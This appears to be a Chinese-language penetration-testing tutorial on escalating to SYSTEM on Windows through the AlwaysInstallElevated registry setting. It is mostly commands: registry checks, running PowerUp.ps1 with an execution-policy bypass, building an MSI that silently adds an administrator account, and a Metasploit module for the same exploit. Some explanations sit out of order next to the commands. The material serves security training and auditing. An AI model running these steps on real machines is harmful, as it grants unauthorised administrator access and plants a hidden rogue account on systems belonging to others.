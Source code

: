 ```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

然后使用 reg 查看这两项的键值，0x1 表示处于开启状态。

```
Import-Module .\PowerUp.ps1
Get-RegistryAlwaysInstallElevated
```

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Get-RegistryAlwaysInstallElevated}"
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxSxRwGCcL83N9npI7KpPSlDEiaIIGhxjMxfVzLRgqmVTLpZps6ntkLumAicDKeywlz1mJ5xytdRVw/640?wx_fmt=png)

复现
--

### PowerUp

PowerUp 下载地址：https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

我们可以使用 PowerUp.ps1 脚本里的 Get-RegistryAlwaysInstallElevated 模块来检查相关注册表是否被设置。

在 PowerShell 中导入并执行脚本

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Write-UserAddMSI}"
```

如果 PowerShell 由于处在受限模式以至于无法导入脚本，可以使用 -exec bypass 进行绕过。

```
msiexec /q /i UserAdd.msi
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxSxRwGCcL83N9npI7KpPSTRiaV5tp2bEItRzfthMNGauI3ajISTh71rIeELZkIdKCEGELcRSn7iaw/640?wx_fmt=png)

返回为 True，表示相关注册表被设置了，也就意味着 MSI 文件是以 SYSTEM 权限运行的。

运行 PowerUp 的 Write-UserAddMSI 模块

```
/quiet：安装过程中禁止向用户发送消息
/qn：不使用GUI
/q：隐藏安装界面
/i：安装程序
```

```
use exploit/windows/local/always_install_elevated
set session 1
run
```

运行完后，会在当前目录下生成一个 UserAdd.msi 程序，此时以普通用户权限执行该 MSI 程序就会创建一个管理员账户。
